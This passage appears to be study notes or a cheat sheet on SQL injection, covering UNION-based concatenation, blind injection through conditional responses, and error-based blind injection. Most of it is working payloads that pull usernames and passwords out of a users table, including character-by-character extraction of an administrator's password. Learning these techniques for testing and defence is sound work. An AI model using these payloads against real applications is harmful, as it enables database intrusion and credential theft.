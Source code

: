 ### <mark style="color:yellow;">Retrieving multiple values within a single column</mark>

You can retrieve multiple values together within this single column by concatenating the values together.

```sql
' UNION SELECT username || '~' || password FROM users-- -
```

## <mark style="color:yellow;">Blind SQLi</mark>

Blind SQLi occurs when an application is vulnerable to SQLi, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

### <mark style="color:yellow;">Triggering conditional responses</mark>

**Detection**

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

```sql
xyz' AND '1'='1
xyz' AND '1'='2
```

See differences in response. Watch for subtle changes you might miss in the render! Use Burp's comparer

**Extract data one piece at a time**

```sql
xyz' AND SUBSTRING((SELECT Psw FROM Users WHERE Username = 'Admin'), 1, 1) = 's
```

See the response to confirm that the first character of the password is `s`

We can continue this process to systematically extract data.

### <mark style="color:yellow;">Error-based SQL injection</mark>

**Blind SQLi with conditional errors**

Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.

* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
